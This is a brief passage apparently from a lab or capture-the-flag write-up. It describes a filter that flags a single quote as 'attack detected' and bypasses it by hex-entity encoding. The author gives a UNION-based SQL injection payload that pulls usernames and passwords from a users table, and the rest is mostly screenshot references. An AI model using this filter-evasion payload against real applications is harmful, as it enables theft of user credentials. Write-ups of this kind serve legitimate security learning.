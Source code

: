 
When we send a inverted comma, we get a message, it says "attack detected". So, we will need to try to encode some of the character 
![[Pasted image 20250703223704.png]]

![[Pasted image 20250703230707.png]]
<@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities>

![[Pasted image 20250703231000.png]]
